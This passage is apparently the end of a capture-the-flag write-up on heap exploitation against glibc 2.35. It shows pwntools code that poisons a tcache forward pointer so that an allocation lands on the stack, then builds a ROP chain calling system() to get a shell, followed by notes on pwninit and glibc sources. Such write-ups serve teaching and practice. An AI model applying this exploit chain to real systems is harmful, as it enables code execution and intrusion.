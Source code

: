 ```py
arb_free(mmap_payload_base+16 + 0x20 + 0xc0) # chunk 4
arb_free(mmap_payload_base+16 + 0x20 + 0x80) # chunk 3

stack_target = stack_leak - 0x148
# Use the 0x220 chunk to overwrite the fwd ptr on chunk 3
create_not_secret(10, b"E" * 0x18 + b"Q" * 0x80 + p64(0x41) + p64(protect(mmap_payload_base, stack_target)) + b"\n", l=0x210)
create_not_secret(0, b"\n", l=0x38) # alloc chunk 3, now the next chunk to be allocated will be on the stack

e = ELF('libc.so.6')
e.address = leak_revealed-0x219ce0
r = ROP(e)
r.call(r.find_gadget(["ret"])) # stack alignment
r.system(mmap_payload_base+0x228)
print(r.dump())
create_not_secret(0, p64(0) + r.chain() + b"\n", l=0x38, final=True)
```

Now we get a shell!

other random notes
----

- I used got libc and ld from the Docker container, and then used [pwninit](https://github.com/io12/pwninit) to get a patched binary that uses this ld/libc.
- The nicely searchable bootlin site also has glibc https://elixir.bootlin.com/glibc/glibc-2.35/source/, I used this a lot to look up malloc/free aborts I was getting, and also all the file structure stuff.

